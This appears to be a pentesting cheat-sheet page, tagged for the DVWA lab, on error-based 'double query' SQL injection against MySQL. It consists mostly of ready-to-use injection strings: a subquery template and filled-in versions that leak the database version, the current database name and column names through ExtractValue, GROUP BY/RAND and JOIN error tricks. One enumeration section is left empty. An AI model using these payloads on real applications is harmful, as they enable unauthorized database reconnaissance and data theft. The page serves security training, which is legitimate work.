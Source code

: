 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - server-side-attack
  - enumeration-and-discovery
  - sql-injection
  - error-based
  - dvwa
---
```

# 01 - Database Reconnaissance

## 1.1 - SubQuery (Double Query) Injection

Subquery injection is often referred as double injection. It is the second method other than union technique. In contrast, the SQL query is more difficult to read yet it can serve as alternative to retrieve data.

```sql
1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((<SQL_Payload>),':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#

1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((<SQL_Payload>),0x3a,FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#

1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT(':', ':', (<SQL_Payload>),':', ':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#

1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x3a, 0x3a, (<SQL_Payload>),0x3a, 0x3a, FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#
```

## 1.2 - Enumeration and Discovery

### 1.2.1 - Banner Grab

```sql
1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT VERSION()),':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#
```

### 1.2.2 - Current Database

```sql
1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT DATABASE()),':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#
```

### 1.2.3 - Schema Database Enumeration

Let's enumerate the tables.

```

```

Let's enumerate the columns.

```
AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2)))

(@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0);

AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));-- Available in MySQL 5.1.5

AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)-- Fixed in MySQL 5.1

AND (SELECT * FROM (SELECT * FROM SOME_EXISTING_TABLE JOIN SOME_EXISTING_TABLE b) a)

AND (SELECT * FROM (SELECT * FROM SOME_EXISTING_TABLE JOIN SOME_EXISTING_TABLE b USING (SOME_EXISTING_COLUMN)) a)
```

---
## References

### Security Idiots

- [SecurityIdiots: Error-Based Injection Subquery Injection](https://securityidiots.com/Web-Pentest/SQL-Injection/Error-Based-Injection-Subquery-Injection.html)

### Videos

- [SQL Injection Master Course - Lecture 16 - Important 26 Commands for Advance SQL Injection](https://www.youtube.com/watch?v=Be60oqlFYHw)

- [SQL Injection Master Course - Lecture 17 - Double Query Injection](https://www.youtube.com/watch?v=QFy1Ejn-5mU)